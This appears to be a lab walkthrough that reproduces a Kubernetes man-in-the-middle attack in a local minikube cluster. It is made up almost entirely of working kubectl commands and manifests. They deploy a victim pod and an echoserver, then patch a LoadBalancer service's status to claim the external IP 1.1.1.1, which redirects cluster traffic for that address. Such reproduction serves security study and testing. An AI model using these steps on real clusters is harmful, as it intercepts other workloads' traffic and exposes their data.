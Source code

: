 Create namespace app
```
kubectl create ns app
```
Deploy "victim-client" pod to simulate an in-cluster HTTP client with curl

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: victim-client
  namespace: app
  labels:
    app: myService
spec:
  #serviceAccountName: teste
  containers:
    - name: curl
      image: curlimages/curl:7.67.0
      command: [ "/bin/sleep", "3600" ]
EOF
```

Check that we have access to our external victim (here 1.1.1.1)

```
# from a node
minikube ssh -p cenarioX
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# from the pod
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k

```

Deploy "mitm pod"

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: tcc
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: tcc
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

external traffic interception using service type LoadBalancer

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-lb
  namespace: tcc
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/tcc/services/mitm-external-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"1.1.1.1"}]}}}'
pkill kubectl
```

After the patch call, LoadBalancer IP is properly configured (ie not pending)

```
kubectl get -n tcc svc/mitm-external-lb
```

Test if the MITM works
```
# node -> ip
minikube ssh -p cenarioX
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k
```

view traffic 

```
stern -n tcc echoserver
```